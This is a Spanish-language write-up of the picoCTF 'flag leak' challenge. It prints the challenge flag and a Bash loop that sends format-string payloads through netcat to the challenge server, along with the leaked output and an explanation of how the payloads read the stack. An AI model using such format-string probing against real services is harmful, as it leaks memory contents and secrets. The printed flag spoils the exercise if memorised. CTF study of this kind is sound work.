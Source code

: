 # Retos picoCTF

# Level flag leak

## Objetivo
Story telling class 1/2 I'm just copying and pasting with this program. What can go wrong? You can view source here. And connect with it using: nc saturn.picoctf.net 51991

## Solucion
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

```
┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49920 | grep -Ei 'pico|ctf'; done
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
FLAG=picoCTF{L34k1ng_Fl4g_0ff_St4ck_
saturn.picoctf.net [13.59.203.175] 49920 (?) : Connection refused
```

for i in {0..999}; do ... done

Es un bucle for en Bash que recorre los números del 0 al 999.
En cada iteración, el valor actual de i es usado dentro del cuerpo del bucle.
echo "%$i\$s"

Genera una cadena con el formato "%<n>$s", donde <n> es el valor actual de i.
Este formato es común en vulnerabilidades de "format string" (format string vulnerabilities), que explotan cómo un programa maneja las cadenas de formato.
El "%<n>$s" intenta acceder a la <n>-ésima posición de la pila de memoria y la interpreta como una cadena (%s).
nc saturn.picoctf.net 49920

Usa el comando nc (netcat) para establecer una conexión TCP con el servidor remoto saturn.picoctf.net en el puerto 49920.
netcat es una herramienta que permite enviar datos a través de conexiones de red.
grep -Ei 'pico|ctf'

Filtra la salida de la conexión buscando líneas que contengan las palabras "pico" o "ctf", ignorando mayúsculas y minúsculas (-i).
## Referencias


